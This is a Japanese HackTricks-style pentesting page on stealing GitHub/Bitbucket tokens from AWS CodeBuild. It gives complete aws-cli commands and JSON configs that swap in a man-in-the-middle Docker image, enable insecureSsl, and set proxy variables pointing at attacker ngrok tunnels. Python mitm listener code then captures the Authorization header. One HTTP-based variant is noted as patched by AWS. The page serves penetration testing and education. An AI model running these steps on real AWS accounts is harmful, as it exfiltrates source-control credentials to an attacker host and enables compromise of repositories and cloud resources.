 # AWS Codebuild - Token Leakage

{{#include ../../../../banners/hacktricks-training.md}}

## Github/Bitbucketに設定されたトークンの回収

まず、漏洩できるソース認証情報が設定されているか確認してください:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

もし、例えばGithubへの認証がアカウントに設定されていることがわかった場合、Codebuildに**特定のDockerイメージ**を使用させてプロジェクトのビルドを実行させることで、その**アクセス**（**GHトークンまたはOAuthトークン**）を**抽出**することができます。

この目的のために、**新しいCodebuildプロジェクトを作成**するか、既存のものの**環境**を変更して**Dockerイメージ**を設定することができます。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは、**env変数`https_proxy`**、**`http_proxy`**、および**`SSL_CERT_FILE`**を設定する非常に基本的なDockerイメージです。これにより、**`https_proxy`**および**`http_proxy`**で指定されたホストのほとんどのトラフィックを傍受し、**`SSL_CERT_FILE`**で指定されたSSL CERTを信頼することができます。

1. **自分のDocker MitMイメージを作成してアップロード**
- リポジトリの指示に従って、プロキシIPアドレスを設定し、SSL証明書を設定して**Dockerイメージをビルド**します。
- メタデータエンドポイントへのリクエストを傍受しないように、**`http_proxy`を設定しないでください**。
- **`ngrok`**を使用して、`ngrok tcp 4444`のようにプロキシをホストに設定できます。
- Dockerイメージがビルドされたら、**パブリックリポジトリにアップロード**します（Dockerhub、ECR...）。
2. **環境を設定**
- **新しいCodebuildプロジェクトを作成**するか、既存のものの環境を**変更**します。
- プロジェクトを**以前に生成したDockerイメージ**を使用するように設定します。

<figure><img src="../../../../images/image (23).png" alt=""><figcaption></figcaption></figure>

3. **ホストにMitMプロキシを設定**

- **Githubリポジトリ**に示されているように、次のようなものを使用できます：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
> [!TIP]
> 使用された**mitmproxyのバージョンは9.0.1**であり、バージョン10ではこれが機能しない可能性があると報告されています。

4. **ビルドを実行し、認証情報をキャプチャする**

- **Authorization**ヘッダーにトークンが表示されます：

<figure><img src="../../../../images/image (273).png" alt=""><figcaption></figcaption></figure>

これは、aws cliを使用して次のように行うこともできます。
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
### Via insecureSSL

**Codebuild** プロジェクトには、APIからのみ変更できるウェブに隠された **`insecureSsl`** という設定があります。\
これを有効にすると、Codebuild はプラットフォームが提供する証明書を **確認せずに** リポジトリに接続できるようになります。

- まず、次のようなもので現在の設定を列挙する必要があります:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
- その後、収集した情報を使ってプロジェクト設定の **`insecureSsl`** を **`True`** に更新できます。以下は私がプロジェクトを更新した例で、最後に **`insecureSsl=True`** があることに注意してください（これは収集した設定から変更する必要がある唯一の項目です）。
- さらに、tcp ngrokを指す環境変数 **http_proxy** と **https_proxy** も追加してください：
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
- 次に、プロキシ変数（http_proxyおよびhttps_proxy）で指摘されたポートで、[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)から基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- 最後に、**プロジェクトをビルド**をクリックすると、**認証情報**が**平文**（base64）でmitmポートに**送信されます**：

<figure><img src="../../../../images/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~HTTPプロトコル経由~~

> [!TIP] > **この脆弱性は2023年2月20日の週のある時点でAWSによって修正されました（金曜日だと思います）。したがって、攻撃者はもはやこれを悪用できません :)**

**CodeBuildでの権限が昇格された攻撃者は、設定されたGithub/Bitbucketトークンを漏洩させることができます**。または、権限がOAuth経由で設定されている場合、**コードにアクセスするために使用される一時的なOAuthトークン**です。

- 攻撃者は、CodeBuildプロジェクトに**http_proxy**と**https_proxy**の環境変数を追加し、自分のマシンを指すことができます（例えば`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../images/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../images/image (213).png" alt=""><figcaption></figcaption></figure>

- 次に、GitHubリポジトリのURLをHTTPSの代わりにHTTPを使用するように変更します。例えば：`http://github.com/carlospolop-forks/TestActions`
- 次に、プロキシ変数（http_proxyとhttps_proxy）で指示されたポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)の基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="0.0.0.0",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- 次に、**プロジェクトをビルド**をクリックするか、コマンドラインからビルドを開始します:
```sh
aws codebuild start-build --project-name <proj-name>
```
- 最後に、**credentials**は**平文**（base64）でmitmポートに**送信されます**：

<figure><img src="../../../../images/image (159).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> これで攻撃者は自分のマシンからトークンを使用し、持っているすべての権限をリストし、CodeBuildサービスを直接使用するよりも簡単に（悪用）できるようになります。

{{#include ../../../../banners/hacktricks-training.md}}
